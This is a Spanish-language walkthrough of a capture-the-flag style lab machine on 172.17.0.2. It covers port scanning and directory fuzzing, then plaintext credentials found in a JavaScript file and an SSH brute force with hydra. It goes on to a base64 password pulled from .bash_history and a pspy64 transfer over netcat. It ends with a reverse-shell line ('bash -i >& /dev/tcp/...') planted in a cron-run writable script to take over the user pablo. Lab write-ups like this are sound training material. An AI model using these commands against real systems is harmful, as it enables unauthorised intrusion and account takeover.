 ## FASE DE ENUMERACIÓN
sabiendo que la IP de la máquina victima es : 172.17.0.2
```bash
sudo nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 -oN PuertosYservicios 172.17.0.2
```
me reporta este resultado:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:f6:3a:98:23:dc:8b:00:f0:5c:d5:50:07:f9:ec:e7 (ECDSA)
|_  256 b0:4e:cb:2a:e0:ac:cf:4c:14:7b:23:57:00:6d:12:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CyberGuard - Seguridad Digital
```
puerto 22 y puerto 80 abiertos.

El puerto 22 es ssh version no vulnerable, sin credenciales ni users no podemos hacer gran cosa, asi pues no scentramos 
en el puerto 80

Hacemos fuzzing:
```bash
feroxbuster -u "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,html,txt,js,old,bak -o fuzzFero
```
decubriendo algunas rutas:
```
1543822/1543822 6486647/s http://172.17.0.2/images/ => Directory listing
[####################] - 0s   1543822/1543822 385955500/s http://172.17.0.2/archiv/ => Directory listing
```
en esta ruta encontramos algo interesante:
```bash
http://172.17.0.2/archiv/script.js
```
```
const usuariosPermitidos = {
    'admin': 'CyberSecure123',
    'cliente': 'Password123',
    'chloe' : 'chloe123'
```
credenciales en texto plano.

## FASE INTRUSIÓN

Utilizamos las credenciales proporconadas en un ataque de fuerza bruta, hice un diccionario con los 3 uer y otrro con los 3 password,
hago fuerzabruta con hydra:
```bash
hydra -L users.txt  -P password.txt -t 16 -V -f -I ssh://172.17.0.2
```
```
[22][ssh] host: 172.17.0.2   login: chloe   password: chloe123
```
me conecto por ssh como chloe y uso la contraseña para loguearme:
```bash
ssh chloe@172.17.0.2
```

## FASE ESCALADA DE PRIVILEGIOS
miramos los usuarios que hay:
```bash
cat /etc/passwd | grep sh$
```
```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
veronica:x:1001:1001:,,,:/home/veronica:/bin/bash
pablo:x:1002:1002:,,,:/home/pablo:/bin/bash
chloe:x:1003:1003:,,,:/home/chloe:/bin/bash
````
Investigo si tengo algún privilegio y no encuentro nada, lo que si veo es que tengo acceso al home de vernica:
```bash
cd /home
````
miramos los propietarios y permisos de las carpetas:
```bash
ls -la
```
```
drwxr-xr-x 1 root     root     4096 Apr 16 23:03 .
drwxr-xr-x 1 root     root     4096 May 11 07:13 ..
drwxr-x--- 1 chloe    chloe    4096 Apr 18 22:14 chloe
drwxr-x--- 1 pablo    pablo    4096 May  2 18:11 pablo
drwxr-x--- 2 ubuntu   ubuntu   4096 Jan 26 22:09 ubuntu
drwxr-xrwx 1 veronica veronica 4096 Apr 18 16:35 veronica
```
entramos en el home de veronica:
```bash
cd veronica/
```
miramos permisos:
```bash
ls -la
```
```
total 48
drwxr-xrwx 1 veronica veronica 4096 Apr 18 16:35 .
drwxr-xr-x 1 root     root     4096 Apr 16 23:03 ..
-rw-r--r-- 1 veronica veronica   17 Apr 18 22:18 .bash_history
-rw-r--r-- 1 veronica veronica  220 Apr 16 23:00 .bash_logout
-rw-r--r-- 1 veronica veronica 3771 Apr 16 23:00 .bashrc
drwx------ 2 veronica veronica 4096 Apr 18 10:39 .cache
drwxrwxr-x 3 veronica veronica 4096 Apr 18 11:13 .local
-rw-r--r-- 1 veronica veronica  807 Apr 16 23:00 .profile
-rw------- 1 veronica veronica    7 Apr 18 16:35 .python_history
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Desktop
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Documents
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Images
```
investigando encontramos esto:
```bash
cat .bash_history
```
```
dmVyb25pY2ExMjMK
```
parecde un base64, lo decodeamos:
```bash
echo "dmVyb25pY2ExMjMK" | base64 -d
```
```
veronica123
```
provamos a cambiar al usuario veronica:
```bash
su veronica
```
pero al introducir el pass no nos deja
```
su: Authentication failure
```
provamos por SSH desde una terminal:
```bash
veronica@172.17.0.2
````
y ahora introduciendo el pass si nos deja.
 miramos los grupos a los que pertenece veronica:
 ```bash
id
```
```
uid=1001(veronica) gid=1001(veronica) groups=1001(veronica),100(users),1004(taller)
```
grupo "taller" lo tendremos en cuenta

miramos que tenemos por el home:
```bash
ls -la
```
```
drwxr-xrwx 1 veronica veronica 4096 Apr 18 16:35 .
drwxr-xr-x 1 root     root     4096 Apr 16 23:03 ..
-rw-r--r-- 1 veronica veronica   17 Apr 18 22:18 .bash_history
-rw-r--r-- 1 veronica veronica  220 Apr 16 23:00 .bash_logout
-rw-r--r-- 1 veronica veronica 3771 Apr 16 23:00 .bashrc
drwx------ 2 veronica veronica 4096 Apr 18 10:39 .cache
drwxrwxr-x 3 veronica veronica 4096 Apr 18 11:13 .local
-rw-r--r-- 1 veronica veronica  807 Apr 16 23:00 .profile
-rw------- 1 veronica veronica    7 Apr 18 16:35 .python_history
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Desktop
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Documents
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Images
```
y despues de mirar un poco vemos esto:
```bash
cd .local/
ls -la
```
```
drwxrwxr-x 3 veronica veronica 4096 Apr 18 11:13 .
drwxr-xrwx 1 veronica veronica 4096 Apr 18 16:35 ..
-rwxrwx--x 1 pablo    taller    121 Apr 17 17:23 script-h.sh
drwx------ 3 veronica veronica 4096 Apr 18 10:47 share
```

grupo taller, nos vamos a /tmp
```bash
cd /tmp
```

y pudiendo usar nc nos pasamos pspy64 para poder mirar procesos:

en la maquina victima:
```bash
nc -lvp 4444 > pspy64
```
en la maquina atacante donde tenemos el binario pspy64:
```bash
nc 172.17.0.2 4444 -w 3 < pspy64
```
una vez que lo tenemos damos permisos de ejecucion:
```bash
chmod +x pspy64
```
y lo ejecutamos:
```bash
./pspy64
```
vemos este proceso:
```
2025/05/11 07:33:01 CMD: UID=1002  PID=336    | /bin/sh -c /home/veronica/.local/script-h.sh > /tmp/hora/hora.log 2>&1
```
el UID de usuario es 1002, que acordandonos del passwd "pablo:x:1002:1002:,,,:/home/pablo:/bin/bash" pertenece a pablo
ejecuta el script  /home/veronica/.local/script-h.sh que podemos modificar, así pues hacemos nano al script e introducimos unos comandos:
```bash
nano  /home/veronica/.local/script-h.sh
```
introducimos esta linea "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" quedando el script así:
```
#!/bin/bash

bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
hora_actual=$(date +"%H:%M:%S")


echo "La hora actual del sistema es: $hora_actual" >> /tmp/hora/hora.log
```
me pongo en escucha por el puerto 4444
```bash
sudo nc -lvnp 4444
```
y ya soy el usuario pablo.
